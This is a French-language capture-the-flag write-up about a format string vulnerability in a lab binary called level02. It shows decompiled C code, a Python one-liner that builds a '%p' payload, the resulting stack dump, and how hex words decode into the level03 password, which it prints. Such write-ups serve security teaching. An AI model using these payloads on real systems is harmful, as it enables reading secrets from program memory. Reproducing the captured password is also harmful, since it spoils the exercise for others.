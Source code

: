 # Format String Exploitation

En décompilant l'exécutable, on remarque qu'on ne peut pas utiliser `gdb` pour imprimer la `stack`. Le programme fait un test au préalable en essayant d'ouvrir le fichier `.pass` de l'utilisateur `level03`.
```c
stream = fopen("/home/users/level03/.pass", 0x400bb0, 0x400bb0);
if (stream == 0) {
    fwrite("ERROR: failed to open password file\n", 1, 0x24, _reloc.stderr);
    exit(1);
}
```
En revanche, on peut utiliser un appel à `printf` pour afficher la stack.
```c
printf(&format);
```
La variable `format` est assignée au moment d'un `fread` lors de la demande du `username`.
```c
printf("--[ Username: ");
fgets(&format, 100, _reloc.stdin);
iVar3 = strcspn(&format, 0x400bf5);
*(undefined *)((int64_t)&format + iVar3) = 0;
```
On peut donc passer en entrée standard une série de `modifiers` `%p` qui nous permettrons d'afficher la stack à partir des arguments de `printf`. On créer donc une commande avec `Python` qui va génerer une série de `%p`.
```
> python -c "print '%p '*100" > /tmp/input
```
On injecte notre fichier `input` en entrée standard.
```
> cat /tmp/input - | ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4e0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6d8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!

```
Comme prévu, `printf` nous permet d'afficher la `stack`. On peut y remarquer plusieurs éléments. Tout d'abord, on retrouve nos `%p`.
```
0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025
```
On peut aussi remarquer une chaîne de caractère qui pourrait correspondre au contenu du fichier `.pass` lu précédement.
```c
stream = fopen("/home/users/level03/.pass", 0x400bb0, 0x400bb0);
if (stream == 0) {
    fwrite("ERROR: failed to open password file\n", 1, 0x24, _reloc.stderr);
    exit(1);
}
var_ch = fread(&ptr, 1, 0x29, stream);
```
```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
```
On peut décoder cette chaîne. À noter que les adresses se remplissent de droite à gauche, nous devrons inverser chaque bloc.
```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
|                  |                  |                  |                  |
v                  v                  v                  v                  v
Hh74RPnu           Q9sa5JAE           XgNWCqz7           sXGnh5J5           M9KfPg3H
```
Le mot de passe est donc :
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
